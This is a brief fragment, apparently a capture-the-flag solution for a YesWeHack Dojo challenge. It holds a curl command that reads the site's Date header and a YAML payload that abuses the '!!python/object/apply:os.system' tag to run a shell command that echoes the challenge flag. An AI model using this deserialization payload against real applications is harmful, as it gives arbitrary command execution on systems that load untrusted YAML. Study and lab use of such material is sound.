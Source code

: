 
````bash
curl -sI https://dojo-yeswehack.com | grep -i '^date:' | cut -d' ' -f2-
````

````bash
firmware:
  version: !!python/object/apply:os.system
  - |
    echo $FLAG
````
